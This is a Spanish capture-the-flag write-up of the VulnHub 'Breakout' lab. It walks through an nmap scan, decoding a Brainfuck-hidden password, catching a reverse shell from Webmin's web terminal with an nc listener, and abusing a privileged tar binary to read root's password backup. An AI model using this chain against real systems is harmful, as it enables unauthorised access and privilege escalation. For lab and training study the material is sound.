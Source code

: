 ```yaml
---
layout: single
title: breakout - vulnhub
excerpt: "Se realizó un escaneo y se identificaron tres puertos abiertos. Al inspeccionar el código fuente de la página (Ctrl + U), se encontró un comentario con una contraseña codificada, la cual se decodificó para acceder a la página web. Luego, con enum4linux -a, se enumeraron nombres de usuario. Dentro de la página, se encontró una terminal web y, al no haber acceso por SSH (puerto 22 cerrado), se estableció una reverse shell. Posteriormente, se identificó un archivo de backups y se aprovechó que tar tenía permisos con privilegios elevados. Al tener permisos sobre tar, se utilizó para leer la contraseña de root y obtener acceso total al sistema."
date: 2023-01-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-breakout/portada.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - vulnhub
tags:
  - nmap
  - decode
  - enem4linux
  - tar
---
```


![](/assets/images/htb-writeup-breakout/portada.png)

Se realizó un escaneo y se identificaron tres puertos abiertos. Al inspeccionar el código fuente de la página (Ctrl + U), se encontró un comentario con una contraseña codificada, la cual se decodificó para acceder a la página web. Luego, con enum4linux -a, se enumeraron nombres de usuario. Dentro de la página, se encontró una terminal web y, al no haber acceso por SSH (puerto 22 cerrado), se estableció una reverse shell. Posteriormente, se identificó un archivo de backups y se aprovechó que tar tenía permisos con privilegios elevados. Al tener permisos sobre tar, se utilizó para leer la contraseña de root y obtener acceso total al sistema.


## Portscan

```
   1   │ ┌──(noesholk㉿noes)-[~]
   2   │ └─$ sudo nmap -p80,139,445,10000,20000 -sCV 192.168.1.74
   3   │ [sudo] contraseña para noesholk: 
   4   │ Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 23:50 UTC
   5   │ Nmap scan report for breakout (192.168.1.74)
   6   │ Host is up (0.00029s latency).
   7   │ 
   8   │ PORT      STATE SERVICE     VERSION
   9   │ 80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
  10   │ |_http-server-header: Apache/2.4.51 (Debian)
  11   │ |_http-title: Apache2 Debian Default Page: It works
  12   │ 139/tcp   open  netbios-ssn Samba smbd 4
  13   │ 445/tcp   open  netbios-ssn Samba smbd 4
  14   │ 10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
  15   │ |_http-server-header: MiniServ/1.981
  16   │ |_http-title: 200 &mdash; Document follows
  17   │ 20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
  18   │ |_http-title: 200 &mdash; Document follows
  19   │ |_http-server-header: MiniServ/1.830
  20   │ MAC Address: 08:00:27:79:DE:D0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
  21   │ 
  22   │ Host script results:
  23   │ |_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknow
       │ n)
  24   │ | smb2-security-mode: 
  25   │ |   3:1:1: 
  26   │ |_    Message signing enabled but not required
  27   │ | smb2-time: 
  28   │ |   date: 2025-02-22T23:30:36
  29   │ |_  start_date: N/A
  30   │ |_clock-skew: -20m27s
  31   │ 
  32   │ Service detection performed. Please report any incorrect results at https://nmap.org/subm
       │ it/ .
  33   │ Nmap done: 1 IP address (1 host up) scanned in 42.59 seconds
```


vemos 5 puertos activos que son

- 80
- 139
- 445
- 10000
- 20000

![](/assets/images/htb-writeup-breakout/inicio.png)


ahora haremos aun CTR + U


![](/assets/images/htb-writeup-breakout/passurl.png)


vemos una contraseña codificada


Ese código parece ser una cadena en Brainfuck, un lenguaje de programación esotérico. Lo descifraré y te diré qué mensaje oculta.
El mensaje descifrado es:
`.2uqPEfj3D<P'a-3`


![](/assets/images/htb-writeup-breakout/iniciopass.png)


nos haremos una reverse shell en la terminal de la pagina


![](/assets/images/htb-writeup-breakout/console.png)


```
   1   │ ┌──(noesholk㉿noes)-[~]
   2   │ └─$ nc -lvnp 1010    
   3   │ listening on [any] 1010 ...
   4   │ connect to [192.168.1.72] from (UNKNOWN) [192.168.1.74] 54176
   5   │ bash: cannot set terminal process group (10766): Inappropriate ioctl for device
   6   │ bash: no job control in this shell
   7   │ cyber@breakout:~$ script /dev/null -c bash
   8   │ script /dev/null -c bash
   9   │ Script started, output log file is '/dev/null'.
  10   │ cyber@breakout:~$ ^Z
  11   │ zsh: suspended  nc -lvnp 1010
  12   │ cyber@breakout:~$ export TERM=xterm
  13   │ cyber@breakout:~$ export SHELL=bash
  14   │ cyber@breakout:~$
```


ahora aremos un tratamiento de la stty


```
   1   │ cyber@breakout:/$ ls
   2   │ bin   initrd.img      libx32      proc  sys                vmlinuz
   3   │ boot  initrd.img.old  lost+found  root  tmp                vmlinuz.old
   4   │ dev   lib             media       run   usermin-setup.out  webmin-setup.out
   5   │ etc   lib32           mnt         sbin  usr
   6   │ home  lib64           opt         srv   var
   7   │ cyber@breakout:/$ cd var
   8   │ cyber@breakout:/var$ ls
   9   │ backups  lib    lock  mail  run    tmp      webmin
  10   │ cache    local  log   opt   spool  usermin  www
  11   │ cyber@breakout:/var$ cd backups
  12   │ cyber@breakout:/var/backups$ ls
  13   │ apt.extended_states.0
  14   │ cyber@breakout:/var/backups$
  15   │ cyber@breakout:~$ ./tar -cf pass.tar /var/backups/.old_pass.bak
  16   │ ./tar: Removing leading `/' from member names
  17   │ cyber@breakout:~$ ls
  18   │ pass.bak  pass.tar  tar  user.txt
  19   │ cyber@breakout:~$ ls
  20   │ pass.bak  pass.tar  tar  user.txt
  21   │ cyber@breakout:~$ cat pass.bak
  22   │ var/backups/.old_pass.bak0000600000000000000000000000002114134001114014303 0ustar  rootro
       │ otTs&4&YurgtRX(=~h
  23   │ cyber@breakout:~$ ls
  24   │ pass.bak  pass.tar  tar  user.txt
  25   │ cyber@breakout:~$ cat pass.tar
  26   │ var/backups/.old_pass.bak0000600000000000000000000000002114134001114014303 0ustar  rootro
       │ otTs&4&YurgtRX(=~h
  27   │ cyber@breakout:~$ cat pass.ba^C
  28   │ cyber@breakout:~$ tar xvf pass.tar
  29   │ var/backups/.old_pass.bak
  30   │ cyber@breakout:~$ ls
  31   │ pass.bak  pass.tar  tar  user.txt  var
  32   │ cyber@breakout:~$ cd var
  33   │ cyber@breakout:~/var$ ls
  34   │ backups
  35   │ cyber@breakout:~/var$ cd backups
  36   │ cyber@breakout:~/var/backups$ ls -la
  37   │ total 12
  38   │ drwxr-xr-x 2 cyber cyber 4096 Feb 22 17:57 .
  39   │ drwxr-xr-x 3 cyber cyber 4096 Feb 22 17:57 ..
  40   │ -rw------- 1 cyber cyber   17 Oct 20  2021 .old_pass.bak
  41   │ cyber@breakout:~/var/backups$ cat .old_pass.bak
  42   │ Ts&4&YurgtRX(=~h
  43   │ cyber@breakout:~/var/backups$ exit
```


ahora vemos que hay un archivo backups que fue manipulado por root y podemos utilizar tar para poder leer el archivo


```
   1   │ cyber@breakout:/home$ su root
   2   │ Password: 
   3   │ root@breakout:/home# cd /
   4   │ root@breakout:/# ls
   5   │ bin   initrd.img      libx32      proc  sys                vmlinuz
   6   │ boot  initrd.img.old  lost+found  root  tmp                vmlinuz.old
   7   │ dev   lib             media       run   usermin-setup.out  webmin-setup.out
   8   │ etc   lib32           mnt         sbin  usr
   9   │ home  lib64           opt         srv   var
  10   │ root@breakout:/# cd root
  11   │ root@breakout:~# ls
  12   │ rOOt.txt
  13   │ root@breakout:~# cat rOOt.txt
  14   │ 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
```
